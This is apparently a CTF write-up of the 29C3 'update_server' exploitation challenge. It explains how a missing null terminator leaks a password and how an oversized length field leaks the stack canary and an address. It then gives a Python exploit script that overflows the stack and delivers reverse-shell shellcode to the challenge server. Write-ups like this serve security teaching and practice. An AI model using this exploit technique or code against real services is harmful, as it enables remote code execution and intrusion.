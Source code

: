 ```yaml
---
title: 29C3 CTF Exploitation 300 update_server
author: kelwin
layout: post
permalink: /29c3-ctf-exploitation-300-update_server/
categories:
  - CTF
  - writeup
---
```

It&#8217;s a version update service. If the input version number is smaller than current version, remote server will send you back the current version. If the input version number is bigger, remote server will save the input version number and ask for some &#8220;link&#8221; information which will lead to buffer overflow. However, the update of version numver is authenticated by a password given by remote runtime parameter. We should bypass the authentcation before we exploit the buufer overflow. I noticed some code as below:

![update_server_equal_version][1]

If the input version number equals current version number, the server will send back the input version string without adding null-byte at the end of the intput buffer. After checking the stack layout, we will surprisedly find that the password is right after the buffer.

![update_server_stack][2]

So we can construnt a long enough string to get the password exposed. It is &#8220;1n53cUr3-pppAssW0rD&#8221;. We are not finished here, we&#8217;ve just started.

Notice that the program is using gcc stack protection mechanism. Stack is protected against bufferoverflow with the 4-byte canary. What&#8217;s more, the servie is running with ASLR.

Carefully check the vulnerable code again:

![update_server_exploit][3]

Before reveiving the second long input buffer, the program will show all the versions to us. Versions are stored in an array. The length is parsed from the first byte. So we can construct a large array length to get more strings exposed on the stack! Using such trick, we can get 4 byte canary and even address in the stack to bypass ASLR!

What&#8217;s left is quite easy, just run your code and enjoy your flag:)

    import sys
    import time
    import socket
    shellcode = WE_USE_REVERSE_TCP_SHELL
    
    import string
    def chr2hex(s):
      ss = ""
      for c in s:
        if c in string.printable:
          ss += c
          continue
        h = hex(ord(c))[2:]
        if len(h) == 1: h = "0"+h
        ss += "\\x" + h
      return ss
    
    
    password = "1n53cUr3-pppAssW0rD"
    
    s = socket.socket()
    s.connect(("94.45.252.235", 1024))
    #s.connect(("166.111.132.184", 1024))
    
    #print s.recv(10000)
    #s.send("\x013.0"+"A"*124)
    #print s.recv(10000)
    #print s.recv(10000)
    
    print s.recv(10000)
    n = 90
    canary = "\x00\x4e\xae\x8a"
    
    #s.send("\x013.0"+"A"*124)
    s.send(chr(n)+"4"*127)
    print s.recv(10000)
    print s.recv(10000)
    s.send(password)
    
    print s.recv(10000)
    ret = s.recv(10000)
    print ret
    
    print "*********"
    print chr2hex(ret)
    i = ret.rfind(password)
    print "*********"
    print chr2hex(ret[i+128:i+128+4]) # print canary
    
    # hardcoded address is acquired from above output
    buf = "\x90"*256+canary+"\x90"*(288-256-4)+"\x9c\xf7\xba\xbf"+"\x90"*600+shellcode+\
        "A"*(1024-288-4-600-len(shellcode))
    
    s.send(buf)
    
    print s.recv(10000)
    print s.recv(10000)
    print s.recv(10000)

 [1]: http://www.blue-lotus.net/wp-content/uploads/2013/01/update_server_equal_version.jpg
 [2]: http://www.blue-lotus.net/wp-content/uploads/2013/01/update_server_stack.jpg
 [3]: http://www.blue-lotus.net/wp-content/uploads/2013/01/update_server_exploit.jpg